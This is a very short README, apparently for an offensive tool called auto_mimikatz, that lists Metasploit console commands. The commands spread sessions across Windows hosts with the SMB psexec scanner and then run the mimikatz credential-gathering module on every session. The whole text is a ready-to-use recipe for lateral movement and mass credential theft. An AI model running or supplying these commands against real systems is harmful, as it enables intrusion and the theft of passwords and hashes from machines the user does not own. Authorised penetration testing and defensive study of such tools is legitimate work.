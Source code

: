 auto_mimikatz
=============

*How to use
load post_auto
use auxiliary/scanner/smb/psexec_scanner
# Wait session
multi_post -m post/windows/gather/mimikatz -s all
